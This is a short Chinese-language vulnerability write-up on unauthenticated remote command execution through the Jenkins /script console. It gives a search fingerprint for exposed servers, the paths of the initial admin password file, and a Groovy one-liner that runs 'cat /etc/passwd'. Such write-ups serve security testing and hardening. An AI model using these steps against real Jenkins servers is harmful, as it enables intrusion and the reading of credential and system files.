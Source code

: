 # Jenkins script 未授权远程命令执行漏洞

# Jenkins script 未授权远程命令执行漏洞

## 漏洞描述

Jenkins 登录后访问 /script 页面，其中存在命令执行漏洞，当存在未授权的情况时导致服务器被入侵

## 漏洞影响

```
Jenkins
```

## 网络测绘

```
app="Jenkins"
```

## 漏洞复现

账号密码存在于：

```
Linux: /var/lib/jenkins/secrets/initialAdminPassword
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword
```

登录后台，或在未授权的情况下访问

```
http://xxx.xxx.xxx.xxx/script
```

在脚本命命令模块执行系统命令

```
println 'cat /etc/passwd'.execute().text
```

![image-20220525163148014](/images/202205251631073.png)

